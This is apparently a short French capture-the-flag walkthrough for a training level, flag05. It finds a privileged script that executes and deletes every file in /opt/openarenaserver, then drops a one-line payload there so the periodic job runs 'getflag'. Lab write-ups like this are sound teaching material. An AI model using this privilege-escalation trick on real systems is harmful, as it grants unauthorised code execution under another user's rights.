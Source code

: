 ```
$> find  / -user flag05 2> /dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

$> cat /usr/sbin/openarenaserver
```
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Il semblerait que periodiquement les fichiers presents dans `/opt/openarenaserver` sont executes et effaces.
Il suffit de mettre notre exploit a cet endroit:

```
echo "getflag > /tmp/ola" > /opt/openarenaserver/exploit
```
